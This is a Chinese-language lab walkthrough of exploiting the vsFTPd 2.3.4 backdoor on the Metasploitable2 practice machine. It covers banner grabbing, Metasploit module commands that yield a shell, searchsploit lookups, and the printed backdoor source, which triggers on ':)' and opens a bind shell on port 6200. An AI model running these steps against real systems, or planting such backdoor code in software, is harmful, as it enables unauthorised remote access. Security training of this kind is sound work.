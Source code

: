 ## 渗透FTP服务
0、需要的工具
- telnet
- google，百度等搜索引擎
- metasploit4
- exploit-db
- `find` and `grep`

1、前面`namp -p 0-65535 metasploitable2`的时候有ftp服务。

2、使用telnet工具拿到ftp服务的名字和版本号。
```bash
[root@kali: ~#] telnet metasploitable2 21
Trying 192.168.199.169...
Connected to metasploitable2.
Escape character is '^]'.
220 (vsFTPd 2.3.4)

```  
3、也可以直接去查看metasploitable2上的ftpd服务的名字和版本

4、得到软件名字和版本号，就动用google，百度等搜索引擎，开始找相关的漏洞，
在网上已经有这个版本被人植入后门消息，查看一下，还得到了metasploit的利用，
```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
#查看options和payloads
msf > show options
msf > show payloads
#最后确认只需要设置RHOST
msf > set RHOST metasploitable2
msf > exploit
#果断的拿到了shell
```
5、vsFTPd 后门代码片段
- str.c
```C
int
str_contains_space(const struct mystr* p_str)
{
  unsigned int i;
  for (i=0; i < p_str->len; i++)
  {
    if (vsf_sysutil_isspace(p_str->p_buf[i]))
    {
      return 1;
    }
    else if((p_str->p_buf[i]==0x3a) // 对应的字符是`:`
    && (p_str->p_buf[i+1]==0x29))   //对应的字符是`)`
    {
      vsf_sysutil_extra();
    }
  }
  return 0;
}
```
- sysdeputil.c
```C
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1); 
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200); 
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa, //会监听一个6200的端口
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  { 
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0); //得到shell
  } 
}
```
6、[vsftpd下载地址](http://ftp.gwdg.de/pub/cert.dfn/tools/net/vsftpd/)

7、我查看源代码方式
```bash
[root@kali: ~#] cd vsftpd
#直接找linux的bin目录
[root@kali: ~#] find . -name "*.c" | xargs grep "/bin"

```
ps: 我得到exploit的方式是通过exploit-db,最开始并不是按早上面的步骤来的。
```bash
[root@kali: ~#] searchsploit vsftp
#在这里找到VSFTPD 2.3.4的一个ruby脚本17491.rb
[root@kali: ~#] locate 17491.rb
/usr/share/exploitdb/platforms/unix/remote/17491.rb
#得到17491.rb的绝对路径,查看这个脚本
[root@kali: ~#] cat /usr/share/exploitdb/platforms/unix/remote/17491.rb
#注释里面已经告诉你了。。。:)

```